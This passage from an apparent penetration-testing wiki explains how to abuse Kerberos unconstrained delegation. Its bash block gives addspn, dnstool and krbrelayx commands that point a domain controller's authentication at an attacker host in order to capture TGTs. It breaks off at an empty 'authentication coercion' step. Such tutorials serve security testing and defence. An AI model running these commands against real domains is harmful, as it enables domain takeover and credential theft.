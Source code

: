 ## Practice

Some of the following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

### Unconstrained Delegations

If an account \(user or computer\), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it \(or [force it](../mitm-and-coerced-authentications/)\) using Kerberos. The attacker service will receive a ST \(service ticket\) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

{% tabs %}
{% tab title="From the attacker machine \(UNIX-like\)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs \(i.e. of the compromised account\) and add a DNS entry for that name.

This allows targets \(e.g. Domain Controllers or Exchange servers\) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) \(Python\).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 \(by default\), attackers will need to either supply the right AES256 key for the unconstrained delegations account \(`--aesKey` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../privileged-groups.md) \(or any other user that has the needed privileges\) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash \(`-hashes` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\)
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
```
